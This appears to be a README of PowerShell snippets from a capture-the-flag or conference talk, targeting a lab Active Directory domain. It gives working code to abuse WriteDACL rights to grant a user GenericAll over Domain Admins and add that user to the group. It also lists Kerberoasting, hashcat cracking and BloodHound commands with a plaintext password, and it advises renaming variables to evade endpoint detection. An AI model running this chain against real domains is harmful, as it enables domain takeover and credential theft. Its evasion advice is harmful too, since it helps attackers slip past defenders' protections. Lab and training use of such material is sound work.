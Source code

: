 # hhc21_powershell_snippets

These snippets show you how you can read and write to Active Directory group objects DACLs. This also demonstrates using PowerShell to add an account to a AD group.

**Note:** These code snippets (or similar) are used legitimately by many powershell apps and as such will likely not trip endpoint protections. However, if for some reason they do in the future, it will likely be due to signature matching of variable names which can be overcome by changing variable names around.

### You can read the DACL of an AD group object using:

``` powershell
# Can Use Powerview: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
# Or:
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
# Or:
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$domainDirEntry.get_ObjectSecurity().Access
```

### In the below example, the "GenericAll" permission for the "chrisd" user to the "Domain Admins" group if the user your running it under has the "WriteDACL" permission on the "Domain Admins" group.

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("vulns.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### After giving "GenericAll" permissions over the "Domain Admins" group, the below snippet would add the chrisjd account to the "Domain Admins" group:

``` powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Domain Admins,CN=Users,DC=vulns,DC=local"
$username = "chrisd"
$password = "Password!@12"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("vulns.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```

### Added bonus, here is how you can `Enter-PSSession` into a remote computer:

``` powershell
$password = ConvertTo-SecureString "Password!@12" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList ("vulns.local\chrisd", $password)
Enter-PSSession -ComputerName WIN-4JFNT305Q5J.vulns.local -Credential $creds -Authentication Negotiate
```

### Additional commands given during talk:

``` powershell
Invoke-BloodHound -CollectionMethod All

py -3 GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.96.101 vulns.local/chrisd:'Password!@12' -request 

.\hashcat.exe -m 13100 -a 0 .\spns.txt --potfile-disable -r .\rules\best64.rule --force -O -w 4 --opencl-device-types 1,2 .\rockyou.txt

runas /noprofile /user:vulns_svc@vulns.local cmd

echo $env:LOGONSERVER
echo %LOGONSERVER%

net view \\WIN-4JFNT305Q5J

runas /noprofile /user:remote_employee@vulns.local cmd
```
